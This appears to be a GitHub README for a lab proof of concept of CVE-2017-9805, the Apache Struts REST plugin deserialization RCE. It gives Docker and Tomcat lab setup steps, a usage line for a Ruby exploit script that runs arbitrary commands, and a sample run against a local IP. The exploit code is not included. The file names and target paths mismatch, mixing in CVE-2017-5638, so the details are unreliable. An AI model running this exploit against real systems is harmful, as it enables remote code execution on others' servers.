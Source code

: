 # CVE-2017-9805 | Apache Struts REST plug-in XML processing (Struts2 S2-052) RCE

The REST Plugin is using a XStreamHandler with an instance of XStream for deserialization without any type filtering and this can lead to Remote Code Execution when deserializing XML payloads.


Vulnerable Versions
- 2.1.2 - 2.3.33
- 2.5 - 2.5.12

# Usage
1. install tomcat
2. deploy `struts2-rest-showcase-2.5.12.war` file

If you don't want to install tomcat, on your system, you can use docker image

```
# Download and Run tomcat docker image
$ docker run -it --rm -p 8080:8080 tomcat:8.0 bash

# update and install nano
$ apt update
$ apt install nano

# Edit /usr/local/tomcat/conf/tomcat-users.xml
$ nano /usr/local/tomcat/conf/tomcat-users.xml

# To have the following lines between <tomcat-users> </tomcat-users>
<role rolename="admin-gui"/>
<user username="tomcat" password="secret" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-script,admin-gui"/>

# Save, then start the tomcat service
$ /usr/local/tomcat/bin/startup.sh
```

Browse (http://172.17.0.2:8080/manager/html)


**Exploit**

```
ruby cve-2017-5638_exploit.rb <TARGET URL> ["CMD"]
```

## PoC
Here your write the result of executing the exploit on your target

```
-> ruby cve-2017-9805_exploit.rb http://172.17.0.2:8080/struts2_2.3.15.1-showcase/showcase.action "ls -la"
[*] CVE: 2017-9805 - Apache Struts2 S2-052
[*] CMD: ls -la
[+] Target Exploited!
```

# References
- http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9805
- http://struts.apache.org/docs/s2-052.html
- https://github.com/nixawk/labs/tree/master/CVE-2017-5638
- https://samsclass.info/124/proj14/p10xstruts.htm
- https://nti.nsfocusglobal.com/threatnewscategories/struts-2-s2-052-rest-plug-in-remote-code-execution-vulnerability-analysis/
- https://mvnrepository.com/artifact/org.apache.struts/struts2-rest-showcase/2.5.12

